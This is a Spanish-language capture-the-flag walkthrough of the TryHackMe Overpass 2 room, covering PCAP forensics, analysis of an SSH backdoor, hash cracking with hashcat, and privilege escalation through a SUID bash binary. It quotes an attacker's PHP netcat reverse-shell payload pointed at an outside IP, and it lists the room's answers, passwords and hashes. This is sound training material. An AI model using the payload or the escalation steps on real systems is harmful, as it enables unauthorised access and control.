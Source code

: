 ```yaml
---                                                                                                                                             
layout: post 
title:  "Overpass2 - TryHackme - WriteUp/Walkthrough"                                                                                        
summary: "Resolución de la máquina overpass2 de la plataforma de tryhackme" 
author: r4z0r                                                                                                                                   
date: '2021-09-15 14:35:23 +0530'                                                                                                               
category: ['tryhackme','writeup','walkthrough']                                                                                  
thumbnail: /assets/img/posts/overpass2/overpass-fondo.jpg
keywords: overpass2,tryhackme,writeup,walkthrough                                               
permalink: /blog/overpass-tryhackme-writeup/                                                                                         
--- 
```


Continuamos con la ruta de la certificación Offensive Pentesting, hoy resolvemos el reto Overpass 2, está bastante sencillita así que pasemos a la resolución.

![overpass](/assets/img/posts/overpass2/overpass-thm.png)

## Task 1 – Forensics – Analyse the PCAP

Lo primero que debemos hacer es descargarnos el archivo overpass2.pcap.png que nos provee el desafío. Posterior a eso debemos utilizar la herramienta editcap para traducir el archivo a .pcap y luego poder abrirlo con wireshark.

![editcap](/assets/img/posts/overpass2/1.png "editcap")

Una vez abierto la captura, nos dirigimos al paquete que se muestra en la flecha, podemos ver que está haciendo uso del método POST.

![wireshark](/assets/img/posts/overpass2/2.png)

![tcpstream](/assets/img/posts/overpass2/3.png)

Con esto podemos responder a las siguientes preguntas:

**What was the URL of the page they used to upload a reverse shell?** ->  /development/
**What payload did the attacker use to gain access?** -> &lt;?php exec(“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f”)?>

Ahora abrimos otro paquete más abajo.

![wireshark2](/assets/img/posts/overpass2/4.png)

![tcpstream2](/assets/img/posts/overpass2/5.png)

Eso responde a la pregunta:

**What password did the attacker use to privesc?** ->  whenevernoteartinstant

![gitclone](/assets/img/posts/overpass2/6.png)

**How did the attacker establish persistence?** -> https://github.com/NinjaJc01/ssh-backdoor

Para responder a la última pregunta de la sección debemos copiar los hashes en un archivo y utilizar john junto con el diccionario fasttrack.txt

![hashes](/assets/img/posts/overpass2/7-hashes.png)

![jhon](/assets/img/posts/overpass2/8.png)

Como se ve en la imágen hay 4 hashes crackeable.

**Using the fasttrack wordlist, how many of the system passwords were crackable?** -> 4

---

## Task 2 – Research – Analyse the code

Pasando a la tarea 2, ahora que hemos encontrado el código de la puerta trasera, es hora de analizarlo. Para eso nos dirigimos al repositorio que se ve en la captura.

![gitclone](/assets/img/posts/overpass2/6.png)

![git](/assets/img/posts/overpass2/9.png)

Nos dirigimos a main.go

![main](/assets/img/posts/overpass2/10.png)

Acá podemos responder a la primer pregunta:

**What’s the default hash for the backdoor?** -> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

Bajamos más…

![verifypass](/assets/img/posts/overpass2/11.png)

![hash](/assets/img/posts/overpass2/12.png)

Aquí tenemos la respuesta a la pregunta:
**What’s the hardcoded salt for the backdoor?** -> 1c362db832f3f864c8c2fe05f2002a05

Ahora tenemos que volver a la captura que abrimos anteriormente.

![wireshark3](/assets/img/posts/overpass2/13.png)

![backdoor](/assets/img/posts/overpass2/14.png)

Aquí encontramos el hash que utiliza el atacante.
**What was the hash that the attacker used? – go back to the PCAP for this!** -> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

Bien, ya tenemos la salt y el hash, ahora toca crackearlo, para eso buscamos ejemplos de hashes en la página de hashcat.

![hashcatexamples](/assets/img/posts/overpass2/15.png)

Ahí se nos lista cómo debemos crackearlo.

```bash
hashcat -m 1710 "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05" --force /usr/share/wordlists/rockyou.txt
```

![hashcat](/assets/img/posts/overpass2/16.png)

**Crack the hash using rockyou and a cracking tool of your choice. What’s the password?** -> november16
Ya tenemos el password para acceder vía SSH: **november16**

## TASK 3 ATTACK - GET BACK IN!

Para responder a la primera pregunta debemos acceder al puerto 80 donde está corriendo la página del desafío.

![cooctusClan](/assets/img/posts/overpass2/coscu.png)

**The attacker defaced the website. What message did they leave as a heading?** -> H4ck3d by CooctusClan
Posterior a eso, intenté acceder vía ssh pero no me daba el puerto por defecto el 22, entonces tuve que enumerar los puertos con nmap

![nmap1](/assets/img/posts/overpass2/18.png)

**-sC = Para ejecutar una serie de scripts sobre los puertos.**
**-sV = Enumerar servicios y versiones.**
**-oN = Para exportarlo en un formato normal a la carpeta nmap donde el archivo se llamará initial.**

Una vez que tengamos el número del puerto por el que está corriendo ssh nos conectamos a él. El usuario es james, ya que en la captura que estuvimos analizando vemos que utiliza este nombre.
Logramos la conexión, ahora a buscar las flags.

![flaguser](/assets/img/posts/overpass2/19.png)

Bien, ya tenemos la primera flag del usuario. Ahora listemos los binarios que tengan asignados permisos SUID. Por cierto tengo en mi blog cómo abusar de estos permisos para elevar privilegios.

![find](/assets/img/posts/overpass2/20.png)

Tenemos un binario con permisos suid, donde pasandolé como parámetro la flag -p podemos escalar privilegios y ser usuario root, esto es gracias a que el usuario propietario del binario(el que creó el binario) es el usuario root, por lo tanto al ejecutarlo con la flag -p .
La -p opción permite a bash mantener el ID de usuario efectivo con el que se inicia, mientras que sin él, establecerá el uid efectivo en el uid real (su usuario). Esto permite que el bit setuid sea efectivo para permitir que bash retenga al usuario al que está configurado. Es decir ejecutarse con el uid efectivo de root.

![rootflag](/assets/img/posts/overpass2/21.png)

Con esto ya resolvemos el reto, Felicidades!!😃
Compártelo con tus amigos y sigue aprendiendo de este hermoso mundo del hacking, te veo luego 

[R4z0r](https://juankaenel.github.io)👨‍💻

